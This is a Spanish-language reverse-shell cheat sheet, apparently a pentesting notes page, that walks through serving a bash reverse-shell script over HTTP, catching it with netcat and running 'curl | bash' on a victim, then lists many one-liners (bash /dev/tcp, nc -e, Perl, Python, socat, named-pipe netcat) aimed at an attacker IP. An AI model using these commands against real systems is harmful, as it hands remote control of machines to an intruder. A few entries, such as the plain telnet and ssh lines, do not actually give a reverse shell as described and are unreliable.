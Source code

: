 ```yaml
---
title: Revershell cheet sheat
description: "Revershell cheet sheat"
published: true
pubDate: "2024-06-01"
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    ```
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```
    	nc -nlvp 443 
    ```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    ```
    	nc -e /bin/sh X.X.X.X 443
    ```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
- Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
---

- Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
- El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    ```
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    ```
- Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
- El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    ```
    	ssh -R 443:localhost:443 user@X.X.X.X  
    ```
- Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	telnet X.X.X.X 443
    ```
- Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    ```

- Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    ```

- Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
    	openssl s_client -quiet -connect X.X.X.X:443
    ```

- Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
    	exec 5<>/dev/tcp/X.X.X.X/443
    ```

- Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    ```
    	xterm -display X.X.X.X:0
    ```
